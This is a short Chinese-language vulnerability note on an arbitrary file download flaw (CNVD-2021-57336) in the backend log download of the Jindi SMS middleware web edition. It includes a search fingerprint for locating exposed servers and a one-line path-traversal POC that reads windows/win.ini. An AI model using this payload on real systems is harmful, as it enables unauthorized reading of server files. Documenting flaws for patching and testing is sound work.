


# 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

<a-checkbox checked>金笛 短信中间件Web版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金笛短信中间件(WEB版)"</a-checkbox></br>

## 漏洞复现

登录页面


存在漏洞的位置为 日志下载



验证POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```


